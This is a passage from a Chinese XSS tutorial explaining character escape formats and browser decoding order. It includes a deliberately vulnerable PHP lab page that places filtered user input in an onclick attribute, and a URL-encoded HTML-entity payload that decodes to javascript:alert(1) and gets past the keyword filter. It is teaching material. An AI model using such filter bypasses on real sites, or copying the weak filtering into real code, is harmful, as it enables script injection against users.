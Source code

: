 - 三个八进制数字，如果不够个数，前面补0，例如“e”编码为“\145” 　　
- 两个十六进制数字，如果不够个数，前面补0，例如“e”编码为“\x65” 　　
- 四个十六进制数字，如果不够个数，前面补0，例如“e”编码为“\u0065” 　
- 对于一些控制字符，使用特殊的C类型的转义风格（例如\n和\r）

浏览器解析原理：

浏览器在接收到一个HTML文件时，会从头开始对文档进行解析。遇到javascript时，会调用javascript解析器进行解析。遇到类似Onclick等需要触发才会执行的代码会跳过，事件被触发时才会被解析。

### 案例一：HTML——JS


```php	
	<?php
	function htmlencode($str){
		if(empty($str)) return;
		if($str == "") return;
		$str = str_ireplace("<","",$str);
		$str = str_ireplace(">","",$str);
		$str = str_ireplace("script","",$str);
   		$str = str_ireplace("img","",$str);
   		$str = str_ireplace(":","",$str);
   		$str = str_ireplace("javascript","",$str);
 	
   		return $str;
	}


	if(!array_key_exists ("name",$_GET) || $_GET['name'] == NULL || $_GET['name'] == ''){
	$isempty = true;

	} else {
             
	 $html = '<pre>';
	 $html .= '<a onclick=" ' .htmlencode($_GET['name']).'">click this url</a>';
	 $html .= '</pre>';
 
	}

	echo @$html;
	?>
```

这里我们先看name所在的环境，通过url传入参数，然后在html标签里，先进行html解码，然后进行js解码，于是我们考虑对输入的url参数进行html编码，从而可以在进行js解码之前还原参数，从而js执行恶意代码

这里搭建环境只是测试不同环境下的xss解码顺序，由于html编码包含&和#，我们需要先对url参数进行url编码
，然后url参数在服务端解码，然后绕过对javascript等字符的过滤，然后在浏览器解析时造成解码差执行

%26%23x6A%3b%26%23x61%3b%26%23x76%3b%26%23x61%3b%26%23x73%3b%26%23x63%3b%26%23x72%3b%26%23x69%3b%26%23x70%3b%26%23x74%3b%26%23x3A%3b%26%23x61%3b%26%23x6C%3b%26%23x65%3b%26%23x72%3b%26%23x74%3b%26%23x28%3b%26%23x31%3b%26%23x29%3b

然后查看源代码可以看到：


[1]: {{ '/web/resources/xss1.png' | prepend: site.baseurl  }}
[2]: {{ '/web/resources/xss2.png' | prepend: site.baseurl  }}
[3]: {{ '/web/resources/xss3.png' | prepend: site.baseurl  }}
[4]: {{ '/web/resources/xss4.png' | prepend: site.baseurl  }}
[5]: {{ '/web/resources/xss5.png' | prepend: site.baseurl  }}
[6]: {{ '/web/resources/xss6.png' | prepend: site.baseurl  }}
[7]: {{ '/web/resources/xss7.png' | prepend: site.baseurl  }}
[8]: {{ '/web/resources/xss8.png' | prepend: site.baseurl  }}
[9]: {{ '/web/resources/xss9.png' | prepend: site.baseurl  }}
[10]: {{ '/web/resources/xss10.png' | prepend: site.baseurl  }}
[11]: {{ '/web/resources/xss11.png' | prepend: site.baseurl  }}
[12]: {{ '/web/resources/xss12.png' | prepend: site.baseurl  }}
[13]: {{ '/web/resources/xss13.png' | prepend: site.baseurl  }}
[14]: {{ '/web/resources/xss14.png' | prepend: site.baseurl  }}
[15]: {{ '/web/resources/xss15.png' | prepend: site.baseurl  }}
[16]: {{ '/web/resources/xss16.png' | prepend: site.baseurl  }}
[17]: {{ '/web/resources/xss17.png' | prepend: site.baseurl  }}
[18]: {{ '/web/resources/xss18.png' | prepend: site.baseurl  }}
[19]: {{ '/web/resources/xss19.png' | prepend: site.baseurl  }}
[20]: {{ '/web/resources/xss20.png' | prepend: site.baseurl  }}
[21]: {{ '/web/resources/xss21.png' | prepend: site.baseurl  }}